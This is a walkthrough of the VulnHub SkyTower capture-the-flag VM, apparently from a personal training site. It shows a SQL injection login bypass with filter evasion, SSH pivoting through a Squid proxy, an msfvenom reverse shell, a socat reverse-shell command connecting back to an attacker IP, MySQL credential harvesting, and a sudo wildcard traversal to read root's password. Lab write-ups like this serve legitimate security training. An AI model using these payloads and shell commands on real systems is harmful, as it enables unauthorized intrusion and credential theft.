 ```yaml
---
layout: page
title: VulnHub - SkyTower
description: Walkthrough - SkyTower
dropdown: Walkthroughs
priority: 1
---
```

## VM Description

This CTF was designed by Telspace Systems for the CTF at the ITWeb Security Summit and BSidesCPT (Cape Town). The aim is to test intermediate to advanced security enthusiasts in their ability to attack a system using a multi-faceted approach and obtain the "flag".

This VM isn't too difficult and is a good training material for the OSCP certification.

Download: [SkyTower](https://www.vulnhub.com/entry/skytower-1,96/)

Author: [Telespace](https://www.vulnhub.com/author/telspace,90/)

## Enumeration

We configure the VM in bridge mode. In order to determine its assigned IP, we run the below command:

```bash
$arp-scan -I wlan0 -l 
```

### Service Enumeration

```bash
$nmap -sV -sC -p- -oA nmap/nmap 192.168.1.31
```

<div class="row">
  <div class="col-md-6">
    <table class="table table-bordered">
      <thead>
        <tr>
          <th>Open port</th>
          <th>Service</th>
          <th>Version</th>
        </tr>
      </thead>
      <tbody>
        <tr>
          <td>80</td>
          <td> Apache </td>
          <td>2.2.22</td>
        
        </tr>
        <tr>
         <td> 3128 </td>
          <td> squid </td>
          <td> 3.1.20 </td>
        </tr>
       </tbody>
    </table>
  </div>
</div>

#### Web Server Directory Enumeration 

```bash
$gobuster dir -u http://192.168.1.31 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt -o gobuster-80.txt
```

Gobuster finds login.php page. Let's see what is there. 

![login page](../assets/img/Walkthroughs/skytower/1.png)

It's always a good idea to check a web page source code. 

![login page src code](../assets/img/Walkthroughs/skytower/2.png)

In this case, it looks like it's a basic login page; probably coded by a junior developer. This is good news for us because it is likely vulnerable to an SQL injection. Let's check!

We attempt to login using admin' or 1=1;-- as username and admin as password. Based on the response, the web server is vulnerable to an SQL injection but there is some kind of filtering that we will need to bypass. 


![sql injection](../assets/img/Walkthroughs/skytower/3.png)

![filter bypass](../assets/img/Walkthroughs/skytower/4.png)

## Exploit

Every time we need to bypass some kind of filtering, we need to check which characters are allowed and which are not. Burp Repeater can come in handy in this case as it allows us to easily send a modified payload without going through the web interface each time.

We can determine that the following parameters are filtered as they are removed from the response:

```
select, or, =,--
```

There are a lot of guides on how to bypass these filters including this [article](https://www.exploit-db.com/papers/17934) in exploit-db. 

![working payload](../assets/img/Walkthroughs/skytower/5.png)

Excellent. We can now read the message addressed to user John. 

![Successful login](../assets/img/Walkthroughs/skytower/6.png)

Since port 22 is filtered based on our Nmap scans, we need to proxy the connection through the SQUID server. This can be easily achieved by adding this line at the end of /etc/proxychains.conf. 

```
http	192.168.1.31 3128
```

![ssh as john](../assets/img/Walkthroughs/skytower/7.png)

The connection is automatically closed but let's see if we can still execute commands.

![bypassing shell restriction](../assets/img/Walkthroughs/skytower/8.png)

Another way to go is to upload a reverse shell to the tmp directory and execute it. 

We first need to generate a payload with Msfvenom:
![generating payload](../assets/img/Walkthroughs/skytower/9.png)

We can now upload the file using scp:
![Upload the file](../assets/img/Walkthroughs/skytower/10.png)

We set-up a Netcat listener and execute the file after changing its permissions:
![Running exploit](../assets/img/Walkthroughs/skytower/11.png)

![Connected as john](../assets/img/Walkthroughs/skytower/12.png)

Great. The first we need to do once we have a simple reverse shell is to upgrade to a fully interactive TTY. 

This [article](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) by ropnop details different methods to do that. Since python is not installed on the target, we can use socat to upgrade our shell.  

We setup a listener on Kali: 

```bash 
$socat file:`tty`,raw,echo=0 tcp-listen:4444
```
And then execute the below command on the target machine:

```bash
$socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.34:4444
```

![TTY upgrade](../assets/img/Walkthroughs/skytower/13.png)

## Privilege Escalation

#### Escalating to user Sara

We run the automated [LinEnum.sh](https://github.com/rebootuser/LinEnum) script to find attack vectors that can allow us to escalate to root. 

The script found Mysql credentials (root:root). Awesome. Let's connect to mysql and see what information we have. 

![mysql credentials](../assets/img/Walkthroughs/skytower/14.png)

To connect to the database, we run:

```bash
$mysql -u root -p
```

![users passwords](../assets/img/Walkthroughs/skytower/15.png)

We attempt to SSH as William but the password is incorrect. However, Sara's password is valid and we can SSH as Sara as we did with John. 

#### Escalating to user root

One of the first things to check, even before running the automatic script, is to determine if the user we are connected as is in the sudo group by executing [sudo -l].

![sudo](../assets/img/Walkthroughs/skytower/16.png)

User Sara can run /bin/cat /accounts/* and /bin/ls /accounts/* as root without supplying a password.

Since accounts is appended with *, we can perform directory traversal and read any file on the system.

![flag](../assets/img/Walkthroughs/skytower/18.png)

We have the root user password. Let's connect as root. Mission complete :) 

![root](../assets/img/Walkthroughs/skytower/19.png)



 
